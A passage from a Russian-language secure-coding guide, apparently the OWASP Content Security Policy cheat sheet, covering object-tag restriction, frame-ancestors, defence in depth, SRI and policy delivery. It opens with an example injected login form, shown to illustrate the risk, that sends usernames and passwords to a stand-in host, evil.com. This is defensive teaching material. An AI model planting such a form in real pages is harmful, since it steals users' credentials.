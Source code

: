 ```html
<form method="POST" action="https://evil.com/collect">
<h3>Сессия истекла! Пожалуйста, войдите снова.</h3>
<label>Имя пользователя</label>
<input type="text" name="username"/>

<label>Пароль</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>
```

#### 5. Ограничение объектов

Кроме того, запрет тега HTML [object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) предотвратит возможность внедрения злоумышленниками вредоносных программ на Flash, Java или других устаревших исполняемых файлов на страницу.

### Защита от атак на фреймы

Атаки, такие как кликджекинг и некоторые варианты атак стороннего канала браузера (xs-leaks), требуют, чтобы вредоносный веб-сайт загрузил целевой сайт во фрейме.

Исторически заголовок `X-Frame-Options` использовался для этого, но он был заменен директивой CSP `frame-ancestors`.

### Защита в глубину

Сильная CSP обеспечивает эффективный **второй уровень** защиты от различных видов уязвимостей, особенно XSS. Хотя CSP не предотвращает наличие уязвимостей в веб-приложениях, она может значительно усложнить их эксплуатацию для злоумышленника.

Даже на полностью статическом веб-сайте, который не принимает никаких пользовательских данных, CSP может использоваться для обеспечения использования [интеграции подресурсов (SRI)](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity). Это может помочь предотвратить загрузку вредоносного кода на сайт, если один из сторонних сайтов, размещающих файлы JavaScript (например, скрипты аналитики), будет скомпрометирован.

При всем при этом CSP **не должна** быть единственным механизмом защиты от XSS. Вы должны по-прежнему соблюдать хорошие практики разработки, такие как описанные в [шпаргалке по предотвращению XSS](Cross_Site_Scripting_Prevention_Cheat_Sheet.md), а затем внедрять CSP в качестве дополнительного уровня защиты.

## Доставка политики

Вы можете доставить Content Security Policy на ваш веб-сайт тремя способами.

### 1. Заголовок Content-Security-Policy

Отправьте HTTP-заголовок ответа Content-Security-Policy с вашего веб-сервера.

```text
Content-Security-Policy: ...
```
